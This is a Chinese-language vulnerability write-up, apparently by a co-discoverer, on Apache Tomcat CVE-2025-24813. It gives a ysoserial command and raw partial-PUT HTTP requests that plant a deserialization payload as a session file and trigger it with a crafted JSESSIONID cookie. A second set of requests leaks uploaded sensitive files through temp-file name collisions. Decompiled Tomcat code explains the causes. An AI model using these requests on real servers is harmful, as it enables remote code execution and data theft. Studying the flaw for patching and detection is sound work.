# 关于Apache Tomcat CVE-2025-24813的全部-先知社区

> **来源**: https://xz.aliyun.com/news/18151  
> **文章ID**: 18151

---

CVE-2025-24813于年初发现，并在三月由[Tomcat官方](https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq)对外公开披露，下面以漏洞发现者的视角谈谈该漏洞的全部利用方式和要点

> **Important: Remote Code Execution and/or Information disclosure and/or malicious content added to uploaded files via write enabled Default Servlet -**[CVE-2025-24813](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-24813)
>
> The original implementation of partial PUT used a temporary file based on the user provided file name and path with the path separator replaced by ".".
>
> If all of the following were true, a malicious user was able to view security sensitive files and/or inject content into those files:
>
> * writes enabled for the default servlet (disabled by default)
> * support for partial PUT (enabled by default)
> * a target URL for security sensitive uploads that is a sub-directory of a target URL for public uploads
> * attacker knowledge of the names of security sensitive files being uploaded
> * the security sensitive files also being uploaded via partial PUT
>
> If all of the following were true, a malicious user was able to perform remote code execution:
>
> * writes enabled for the default servlet (disabled by default)
> * support for partial PUT (enabled by default)
> * application was using Tomcat's file based session persistence with the default storage location
> * application included a library that may be leveraged in a deserialization attack

## 0x01环境准备

我的tomcat版本为**9.0.98**，当前测试环境下，我的`javax.servlet.context.tempdir`指向的路径为`C:\Users\swordlight\.SmartTomcat omcat9 omcat9\work\Catalina\localhost omcat9`

在**web.xml**中设置`readonly`为`false`

```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

并修改**context.xml**，按照默认配置开启session持久化

```
    <Manager className="org.apache.catalina.session.PersistentManager"
             debug="0"
             saveOnRestart="false"
             maxActiveSession="-1"
             minIdleSwap="-1"
             maxIdleSwap="-1"
             maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" />
    </Manager>
```



由于后面涉及到反序列化，这里在我的项目中添加`commons-collections`依赖

```
    <dependency>
      <groupId>commons-collections</groupId>
      <artifactId>commons-collections</artifactId>
      <version>3.1</version>
    </dependency>
```

## 0x02 漏洞利用 - 反序列化命令执行

> 反序列命令执行这块的利用，在网上已经被复现烂了，但是翻阅网上相关的文章，发现依旧存在一些误解,所以本文会着重说这块

​

首先使用yso工具生产针对`commons-collections`的利用文件`test.session`，欲执行的命令是弹计算器

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "calc" > /tmp/test.session
```

发送如下请求，会将整个`test.session`文件上传到`javax.servlet.context.tempdir`指向的目录

```
PUT /tomcat9/test/session HTTP/1.1
Host: localhost:8084
Accept-Encoding: gzip, deflate, br, zstd
Content-Range: bytes 0-1276/1277

{{file(C:\Users\swordlight\Downloads\test.session)}}

```



尽管响应报错了，但是我们其实已经通过executePartialPut方法将我们的`test.session`文件上传上去，并重命名为`.test.session`



由于使用`org.apache.catalina.session.PersistentManager`开启session持久化时，session存储的路径默认也为`javax.servlet.context.tempdir`指向的目录，使得我们可以通过发送名为`.test`的cookie就触发反序列化

​

发送触发反序化的请求

```
GET /tomcat9/index.jsp HTTP/1.1
Host: localhost:8084
Cookie: JSESSIONID=.test
Accept-Encoding: gzip, deflate, br, zstd


```

即可看到反序化了我们上传的`.test.session`文件，并执行了其中的恶意命令



## 0x03 漏洞分析 - 反序列化命令执行

### 3.1 基础分析

> 这块的分析很多师傅都分析得很不错，不再进行重复，只提下个人认为非常重要的几个要点

反序列化能利用成功主要有3个点

第一个点在于`apache-tomcat-9.0.98\lib\catalina.jar!\org\apache\catalina\servlets\DefaultServlet.class`

的`executePartialPut`方法会基于用户上传的文件名来命名临时文件（.+原始文件名)，并且文件后缀名可控



第二点在于`apache-tomcat-9.0.98-windows-x64\apache-tomcat-9.0.98\lib\catalina.jar!\org\apache\catalina\session\FileStore.class`的cookie名可控，就是由客户端请求的cookie来决定，并且可以包含特殊字符（比如.）



第三点，配置开启session持久化时，默认将session文件也存储在`javax.servlet.context.tempdir`指向的目录

### 3.2 是否有必要发送2个请求？

没有必要，其实只要session文件上传上去之后，过一会儿就会就会去加载session文件进行反序列化

因为`org.apache.catalina.session.ManagerBase`类起了个异步进程调用`processExpires()`方法定时去轮询默认session文件夹下面的以`.session`为后缀的文件，并进行加载，核心的执行逻辑如下



```
    public void processExpires() {
        long timeNow = System.currentTimeMillis();
        Session[] sessions = this.findSessions();
        int expireHere = 0;
        if (this.log.isTraceEnabled()) {
            this.log.trace("Start expire sessions " + this.getName() + " at " + timeNow + " sessioncount " + sessions.length);
        }

        Session[] var5 = sessions;
        int var6 = sessions.length;

        for(int var7 = 0; var7 < var6; ++var7) {
            Session session = var5[var7];
            if (!session.isValid()) {
                this.expiredSessions.incrementAndGet();
                ++expireHere;
            }
        }

        this.processPersistenceChecks();
        if (this.getStore() instanceof StoreBase) {
            ((StoreBase)this.getStore()).processExpires();
        }

        long timeEnd = System.currentTimeMillis();
        if (this.log.isTraceEnabled()) {
            this.log.trace("End expire sessions " + this.getName() + " processingTime " + (timeEnd - timeNow) + " expired sessions: " + expireHere);
        }

        this.processingTime += timeEnd - timeNow;
    }
```

​

```
   public void processExpires() {
        String[] keys = null;
        if (this.getState().isAvailable()) {
            try {
                keys = this.expiredKeys();
            } catch (IOException var15) {
                this.manager.getContext().getLogger().error(sm.getString("store.keysFail"), var15);
                return;
            }

            if (this.manager.getContext().getLogger().isTraceEnabled()) {
                this.manager.getContext().getLogger().trace(this.getStoreName() + ": processExpires check number of " + keys.length + " sessions");
            }

            long timeNow = System.currentTimeMillis();
            String[] var4 = keys;
            int var5 = keys.length;

            for(int var6 = 0; var6 < var5; ++var6) {
                String key = var4[var6];

                try {
                    StandardSession session = (StandardSession)this.load(key);
                    if (session != null) {
                        int timeIdle = (int)((timeNow - session.getThisAccessedTime()) / 1000L);
                        if (timeIdle >= session.getMaxInactiveInterval()) {
                            if (this.manager.getContext().getLogger().isTraceEnabled()) {
                                this.manager.getContext().getLogger().trace(this.getStoreName() + ": processExpires expire store session " + key);
                            }

                            boolean isLoaded = false;
                            if (this.manager instanceof PersistentManagerBase) {
                                isLoaded = ((PersistentManagerBase)this.manager).isLoaded(key);
                            } else {
                                try {
                                    if (this.manager.findSession(key) != null) {
                                        isLoaded = true;
                                    }
                                } catch (IOException var13) {
                                }
                            }

                            if (isLoaded) {
                                session.recycle();
                            } else {
                                session.expire();
                            }

                            this.remove(key);
                        }
                    }
                } catch (Exception var14) {
                    this.manager.getContext().getLogger().error(sm.getString("store.expireFail", new Object[]{key}), var14);

                    try {
                        this.remove(key);
                    } catch (IOException var12) {
                        this.manager.getContext().getLogger().error(sm.getString("store.removeFail", new Object[]{key}), var12);
                    }
                }
            }

        }
    }

```



```
   public String[] keys() throws IOException {
        File dir = this.directory();
        if (dir == null) {
            return new String[0];
        } else {
            String[] files = dir.list();
            if (files != null && files.length >= 1) {
                List<String> list = new ArrayList();
                int n = ".session".length();
                String[] var5 = files;
                int var6 = files.length;

                for(int var7 = 0; var7 < var6; ++var7) {
                    String file = var5[var7];
                    if (file.endsWith(".session")) {
                        list.add(file.substring(0, file.length() - n));
                    }
                }

                return (String[])list.toArray(new String[0]);
            } else {
                return new String[0];
            }
        }
    }
```



所以说第二个触发session反序列化的请求，**其实只是加速反序列的进行并非必须**，实战中不发送该请求会更加隐蔽

完整的调用栈入如下：

```
processExpires:119, StoreBase (org.apache.catalina.session)
processExpires:409, PersistentManagerBase (org.apache.catalina.session)
backgroundProcess:595, ManagerBase (org.apache.catalina.session)
backgroundProcess:4823, StandardContext (org.apache.catalina.core)
processChildren:1172, ContainerBase$ContainerBackgroundProcessor (org.apache.catalina.core)
processChildren:1176, ContainerBase$ContainerBackgroundProcessor (org.apache.catalina.core)
processChildren:1176, ContainerBase$ContainerBackgroundProcessor (org.apache.catalina.core)
run:1154, ContainerBase$ContainerBackgroundProcessor (org.apache.catalina.core)
call:511, Executors$RunnableAdapter (java.util.concurrent)
runAndReset$$$capture:308, FutureTask (java.util.concurrent)
runAndReset:-1, FutureTask (java.util.concurrent)
 - Async stack trace
<init>:151, FutureTask (java.util.concurrent)
<init>:219, ScheduledThreadPoolExecutor$ScheduledFutureTask (java.util.concurrent)
scheduleWithFixedDelay:594, ScheduledThreadPoolExecutor (java.util.concurrent)
scheduleWithFixedDelay:139, ScheduledThreadPoolExecutor (org.apache.tomcat.util.threads)
threadStart:1103, ContainerBase (org.apache.catalina.core)
run:1141, ContainerBase$ContainerBackgroundProcessorMonitor (org.apache.catalina.core)
call:511, Executors$RunnableAdapter (java.util.concurrent)
runAndReset$$$capture:308, FutureTask (java.util.concurrent)
runAndReset:-1, FutureTask (java.util.concurrent)
 - Async stack trace
<init>:151, FutureTask (java.util.concurrent)
<init>:219, ScheduledThreadPoolExecutor$ScheduledFutureTask (java.util.concurrent)
scheduleWithFixedDelay:594, ScheduledThreadPoolExecutor (java.util.concurrent)
scheduleWithFixedDelay:139, ScheduledThreadPoolExecutor (org.apache.tomcat.util.threads)
startInternal:781, ContainerBase (org.apache.catalina.core)
startInternal:211, StandardEngine (org.apache.catalina.core)
start:164, LifecycleBase (org.apache.catalina.util)
startInternal:415, StandardService (org.apache.catalina.core)
start:164, LifecycleBase (org.apache.catalina.util)
startInternal:874, StandardServer (org.apache.catalina.core)
start:164, LifecycleBase (org.apache.catalina.util)
start:739, Catalina (org.apache.catalina.startup)
invoke0:-2, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
start:345, Bootstrap (org.apache.catalina.startup)
main:473, Bootstrap (org.apache.catalina.startup)
```

​

### 3.3 session上传和session触发能够合并在同一个请求？

网上还存在另外一说法在put请求中也设置cookie就能够理解直接触发session反序列化，但是其实这个也是一种不准确的说法

```
PUT /tomcat9/test/session HTTP/1.1
Host: 172.22.96.1:8084
Accept-Encoding: gzip, deflate, br, zstd
Cookie: JSESSIONID=.test
Content-Range: bytes 0-1276/1290

{{file(C:\Users\swordlight\Downloads\test.session)}}
```

因为tomcat的执行逻辑中是会**先处理的session反序列化，再进行文件上传**，但是我们反序列化成功的条件是需要文件已经传上去，这显然是矛盾的，其实这个看起来最终可以反序列化成功也是上面说的后台异步进程起的作用

### 3.4 上传session文件的一个put请求是否一定会返回409？

不一定

如果我们的url路径中涉及的目录在tomcat的应用目录中不存在，就比如上文我们请求的`/test/session`，由于系统上不存在`/test/`目录，会抛出异常`java.nio.file.NoSuchFileException: C:\Users\swordlight\main\sec\analyse omcat9\src\main\webapp est\session`，此时就会返回409

但是如果我们使用如下poc，则不存在这样的问题，具体会根据`test.session`是否已经存在webapp目录下会返回201或者204

```
PUT /tomcat9/test.session HTTP/1.1
Host: 172.22.96.1:8084
Accept-Encoding: gzip, deflate, br, zstd
Content-Range: bytes 0-1276/1290

{{file(C:\Users\swordlight\Downloads\test.session)}}
```



​

​

## 0x04 漏洞利用 - 敏感信息泄漏/恶意文件内容注入

敏感信息泄露是咋回事？这个是另外一个发现者提出的利用方式，官方披露的细节中显示如果满足如下条件会造成敏感信息泄漏

* 默认 Servlet 允许写入（默认关闭）
* 支持 Partial PUT（默认启用）
* 安全敏感上传目录是公共上传目录的子目录
* 攻击者知道敏感文件名
* 敏感文件是通过 partial PUT 上传的

根据披露的信息，不难得出其复现过程

首先要构造一个存在敏感文件上传的场景

在tomcat根目录下创建个`conf`文件夹，该文件夹主要用于存放敏感文件



使用如下请求，往conf文件夹上传一个包含密码的`sensitive.txt`文件

```
PUT /tomcat9/conf/sensitive.txt HTTP/1.1
Host: 172.22.96.1:8084
Content-Range: bytes 0-29/30

password=123456
```



发包完毕后，即可看到tomcat应用根目录下的conf文件夹下多了`sensitive.txt`文件，



并且`javax.servlet.context.tempdir`指向的目录则多了`.conf.sensitive.txt`文件

​

​

如果攻击者无法访问`/conf/sensitive.txt`，且仅仅只知道该敏感文件的路径，则通过发送如下请求就可以复制`/conf/sensitive.txt`的内容到`conf.sensitive.txt`

```
PUT /tomcat9/conf.sensitive.txt HTTP/1.1
Host: 172.22.96.1:8084
Content-Range: bytes 29-29/30


```

该请求表面的含义是在上传一个名`conf.sensitive.txt`的空文件，其中`content-range`的含义必须要和上传空文件保持一致

​



发包完毕之后即可看到tomcat应用根目录下多了个`conf.sensitive.txt`文件，该文件的内容即是`conf/sensitive.txt`的内容



​

之后攻击者可以简单地GET `/conf.sensitive.txt`即可读取到敏感内容



​

​

## 0x05 漏洞分析 - 敏感信息泄漏/恶意文件内容注入

如果在已经了解了反序列化命令执行的利用的原理，那么敏感信息泄漏/恶意文件内容注入的利用原理也很容易理解，核心要点有2点

第一，针对如下2个uri路径的Partial PUT请求在`javax.servlet.context.tempdir`目录下的临时文件名都为`.conf.sensitive.txt`

```
PUT /conf/sensitive.txt
PUT /conf.sensitive.txt
```

第二，分块上传的这块逻辑中没有删除临时文件的逻辑，即`javax.servlet.context.tempdir`目录下的临时文件不会被删除（除非tomcat重启）

所以，在上传了敏感文件`/conf/sensitive.txt`之后，只需要尝试Partial PUT一个空文件内容的`/conf.sensitive.txt`，最终会使得上传的conf.sensitive.txt文件内容为`/conf/sensitive.txt`的内容

更进一步，恶意文件注入又是咋回事？

如果用户多次对/`conf/sensitive.txt`进行Partial PUT的中间穿插着一次攻击者的带有恶意内容的对`/conf.sensitive.txt`的Partial PUT，即可实现在`/conf/sensitive.txt`插入恶意内容，这种情况更难利用，不过这个思路也很有意思

## 0x06 总结

本文分析和提及了CVE-2025-24813的所有要点，本来想细致地说清楚每一个点的，但是发现这样文章会非常臃肿，所以最终还是只说了每一种利用场景下的一些要点和被误解的点。总体而言，个人这个漏洞非常有意思，对于同一个利用点，我和另外一位发现者居然想到了完全不同的利用思路，非常巧妙。
